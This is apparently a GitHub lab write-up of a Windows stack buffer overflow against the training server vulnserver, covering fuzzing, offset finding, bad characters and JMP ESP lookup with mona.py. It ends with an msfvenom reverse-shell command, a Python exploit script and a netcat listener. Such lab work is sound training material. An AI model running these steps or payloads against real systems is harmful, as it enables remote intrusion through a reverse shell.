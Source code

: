 # Windows Buffer Overflow

## Introduction
In this project, we will explore the concept of a buffer overflow vulnerability in Windows. A buffer overflow occurs when more data is written to a buffer than it can hold, potentially allowing an attacker to execute arbitrary code. We will use tools like Immunity Debugger, vulnserver, Windows 10, and Kali Linux to demonstrate a buffer overflow exploit.

## Tools Used
1. **Immunity Debugger**: A powerful debugger for analyzing and exploiting vulnerabilities.
2. **vulnserver**: A vulnerable server application designed for educational purposes.
3. **Windows 10**: The target operating system.
4. **Kali Linux**: The attacker’s machine with penetration testing tools.

## Prerequisites
- Basic understanding of buffer overflow vulnerabilities.
- Knowledge of Windows and Linux operating systems.
- Experience with basic networking concepts.

## Setup
### Installing Immunity Debugger
1. Download Immunity Debugger from the official website.
2. Install Immunity Debugger on Windows 10 machine.

*Ref 1: Installing Immunity Debugger*

![Installing Immunity Debugger](images/image1.png) 
![Installing Immunity Debugger](images/image2.png) 
![Installing Immunity Debugger](images/image3.png) 
![Installing Immunity Debugger](images/image4.png) 
![Installing Immunity Debugger](images/image5.png) 
![Installing Immunity Debugger](images/image6.png)

### Setting Up vulnserver
1. Download vulnserver from the official repository.
2. Extract the vulnserver executable to a directory on Windows 10 machine.
3. Run vulnserver by executing `vulnserver.exe` from the command line.

*Ref 2: Set Up Vulnserver*

![Setting Up Vulnserver](images/image7.png)
![Setting Up Vulnserver](images/image8.png)
![Setting Up Vulnserver](images/image9.png) 
![Setting Up Vulnserver](images/image10.png) 

### Configuring Kali Linux
1. Ensure that Kali Linux machine is on the same network as Windows 10 machine.
2. Install necessary tools, such as `metasploit` and `netcat`.

## Steps
### 1. Identifying the Vulnerability
1. Launch Immunity Debugger on a Windows 10 machine.
2. Attach Immunity Debugger to the vulnserver process by selecting `File -> Attach` and choosing `vulnserver.exe`.
3. Press F9 key to change its state from paused to running.
4. Connect to the vulnserver using netcat command.

For e.g; nc -nv ip_address port

*Ref 3: Running Vulnserver*

![Running vulnserver](images/image11.png) ![Running vulnserver](images/image12.png) ![Running vulnserver](images/image13.png)

### 2. Spiking
1. Identifying a vulnerable parameter.

*Ref 4: Spiking*

![Spiking](images/image14.png) ![Spiking](images/image15.png) ![Spiking](images/image16.png)
![Spiking](images/image17.png) ![Spiking](images/image18.png) ![Spiking](images/image19.png)

### 3. Fuzzing
1. Use a fuzzer to send random data to vulnserver and identify potential crash points.
2. On Kali Linux, create a simple fuzzer script in Python.
3. Run the python script.

*Ref 5: Fuzzing*

![Fuzzing](images/image20.png) ![Fuzzing](images/image21.png) ![Fuzzing](images/image22.png) ![Fuzzing](images/image23.png) ![Fuzzing](images/image24.png)
![Fuzzing](images/image25.png) ![Fuzzing](images/image26.png) ![Fuzzing](images/image27.png) ![Fuzzing](images/image28.png)

### 4. Finding the Offset
1. Find the exact offset where the buffer overflow occurs using the pattern generation and pattern offset tools provided by Metasploit.
2. Generate a unique pattern:
    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 6900
    ```
3. Send the unique pattern to vulnserver and note the EIP value in Immunity Debugger.
4. Determine the offset:
    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 6900 -q EIP_VALUE
    ```
*Ref 6: Finding the offset*

![Finding the offset](images/image29.png) ![Finding the offset](images/image30.png) ![Finding the offset](images/image31.png)
![Finding the offset](images/image32.png) ![Finding the offset](images/image33.png) ![Finding the offset](images/image34.png)

### 5. Overwriting the EIP
1. Modify and execute a python script.
Note: EIP value = 42424242
2. We see that the EIP is overwritten with "BBBB". This means that we can control the EIP.

*Ref 7: Overwriting the EIP*

![Overwriting the eip](images/image35.png) ![Overwriting the eip](images/image36.png) ![Overwriting the eip](images/image37.png)
![Overwriting the eip](images/image38.png)

### 6. Finding Bad Characters
1. We will use mona.py python script as follows:
Commands:

!mona bytearray

*Ref 8: Finding bad characters*

![Finding bad characters](images/image39.png) ![Finding bad characters](images/image40.png) ![Finding bad characters](images/image41.png)
![Finding bad characters](images/image42.png) ![Finding bad characters](images/image43.png) ![Finding bad characters](images/image44.png)
![Finding bad characters](images/image45.png) ![Finding bad characters](images/image46.png)

### 7. Finding the Right Module
1. Utilizing the mona.py script.

Commands:

!mona modules

!mona find -s "\xff\xe4" -m essfunc.dll

2. Set a breakpoint.

a. Click the pointer in the window in the top left-hand corner.

b. Press F2 key to set a breakpoint.

3. Run the python script.

python2 find-right-module.py


*Ref 9: Finding the Right Module*

![Finding the right module](images/image47.png) ![Finding the right module](images/image48.png) ![Finding the right module](images/image49.png) ![Finding the right module](images/image50.png)
![Finding the right module](images/image51.png) ![Finding the right module](images/image52.png) ![Finding the right module](images/image53.png)

### 8. Exploit Development
1. Generating a payload using msfvenom:

sudo msfvenom -p windows/shell_reverse_tcp LHOST=Ip address of kali Linux LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

2. Create a Python script to send the exploit payload.
3. On Kali Linux, create a simple script in Python:
 ```python
#!/usr/bin/python
from __future__ import print_function
import sys, socket

overflow = ("Paste the payload")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

try:
     s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
     s.connect(('192.168.1.97',9999))
     s.send(('TRUN /.:/' + shellcode))
     s.close()

except:
     print("Error connecting to server")
     sys.exit()
 ```

4. Start a netcat listener.
nc -nvlp 4444

### 5. Executing the Exploit
1. Replace the 'payload' variable with the shellcode generated by a tool like 'msfvenom'.
2. Run the exploit script from a Kali Linux machine.
3. Observe the reverse shell connection on a Kali Linux machine.

*Ref 10: Exploit Development - Generating shellcode | Gaining Root

![exploit development](images/image54.png) ![exploit development](images/image55.png) ![exploit development](images/image56.png)
![exploit development](images/image57.png) ![exploit development](images/image58.png) ![exploit development](images/image59.png)

## Conclusion
By following these steps, we have successfully demonstrated a buffer overflow vulnerability and developed an exploit for it. This project emphasizes the importance of secure coding practices and proper input validation to prevent such vulnerabilities.
